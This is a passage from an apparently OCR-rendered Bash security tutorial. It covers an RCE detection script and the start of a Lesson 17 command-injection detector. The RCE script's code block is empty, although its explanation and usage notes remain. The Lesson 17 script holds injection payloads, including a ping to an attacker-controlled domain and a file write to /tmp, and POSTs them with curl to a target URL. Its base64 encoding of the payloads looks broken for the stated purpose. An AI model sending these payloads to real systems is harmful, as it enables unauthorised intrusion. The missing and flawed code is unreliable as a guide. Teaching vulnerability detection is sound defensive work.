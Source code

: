 ```bash
```

**Explanation:**
- The script defines a function `detect_rce` to perform RCE detection.
- It defines a list of RCE payloads representing commands to be executed on the target system.
- The `main` function serves as the entry point, validating input and invoking the RCE detection function.
- When executed with a target URL as an argument, the script injects RCE payloads into vulnerable parameters and analyzes the responses for potential vulnerabilities.

#### Usage:
Save the script to a file (e.g., `rce_detector.sh`) and make it executable (`chmod +x rce_detector.sh`). Then, run the script with the URL of the target server or web application as an argument:

```bash
./rce_detector.sh http://example.com/vulnerable_endpoint
```

Replace `http://example.com/vulnerable_endpoint` with the URL of the vulnerable endpoint susceptible to RCE attacks.

#### Considerations:
- **Payloads**: Customize the list of RCE payloads based on your knowledge of common command injection attack vectors and techniques.
- **HTTP Method**: Adjust the HTTP method (`-X POST` in this example) and payload format based on the target application's request handling.
- **Response Analysis**: Analyze the responses from the server to identify any indications of successful RCE attacks, such as execution of injected commands or unexpected behavior.

By creating a simple RCE detection tool with Bash scripting, you can automate the process of identifying potential RCE vulnerabilities in web applications or servers, helping to mitigate security risks and protect against unauthorized access and data breaches.

In the next lesson, we'll discuss additional security considerations and best practices for developing and using security tools effectively.

### Lesson 17: Creating Command Injection Detection Tools with Bash

Command Injection vulnerabilities allow attackers to execute arbitrary commands on a target system, potentially leading to unauthorized access or data breaches. In this lesson, we'll develop a simple Command Injection detection tool using Bash scripting:

#### Use Case: Command Injection Detection Tool

Let's create a Bash script that scans a website or server for potential Command Injection vulnerabilities by injecting commands and analyzing the responses.

**Bash Script:**
```bash
#!/bin/bash
# This is a comment

# Function to perform Command Injection detection
detect_command_injection() {
    echo "Detecting Command Injection vulnerabilities..."
    # Define Command Injection payloads
    payloads=("ping -c 1 attacker-controlled-domain.com" "echo 'Vulnerable' > /tmp/command_injection_vulnerable.txt")

    # Iterate over payloads and inject them into vulnerable parameters
    for payload in "${payloads[@]}"; do
        echo "Testing payload: $payload"
        curl -s -d "param=$(echo $payload | base64)" -X POST "$1"
    done
}

```